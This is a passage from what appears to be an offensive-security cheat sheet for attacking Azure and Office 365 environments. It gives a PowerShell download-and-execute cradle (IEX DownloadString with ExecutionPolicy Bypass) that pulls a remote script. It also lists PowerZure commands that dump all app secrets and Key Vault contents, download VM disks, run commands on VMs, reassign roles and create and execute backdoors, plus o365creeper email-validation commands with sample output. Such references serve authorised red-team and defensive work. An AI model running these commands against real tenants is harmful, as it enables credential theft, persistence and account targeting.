     ```powershell
    $ git clone https://github.com/cyberark/SkyArk
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
    
## Enumeration

### Enumerate valid emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon
